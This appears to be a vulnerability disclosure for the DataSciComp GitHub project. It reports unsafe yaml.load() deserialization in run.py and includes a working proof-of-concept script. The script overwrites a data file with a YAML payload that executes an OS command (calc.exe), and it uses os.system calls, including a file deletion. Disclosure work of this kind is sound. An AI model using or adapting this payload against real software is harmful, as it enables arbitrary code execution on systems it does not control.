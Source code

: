 # Description
A collection of popular Data Science Challenges/Competitions || Countdown timers to keep track of the entry deadlines.
* **Vulnerability description**
Vulnerable to YAML deserialization attack caused by unsafe loading.
# Proof of Concept
```
# vulnerable part of code
yaml.load() in run.py is responsible for code execution.
https://github.com/iphysresearch/DataSciComp/blob/master/run.py#L46
```
```python
# exploit.py
import os
os.system("git clone https://github.com/iphysresearch/DataSciComp.git")
os.chdir("DataSciComp/_data/")
payload = """title: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""
os.system("rm _effective_kaggle.yaml")
open("_effective_kaggle.yaml","w+").write(payload)
os.chdir("../")
print(os.getcwd())
os.system("python3 run.py")
```

![](https://user-images.githubusercontent.com/43377443/105618821-b6d80f00-5e11-11eb-8a2c-b259cae61cd8.PNG)
# Impact

Arbitary Code Execution
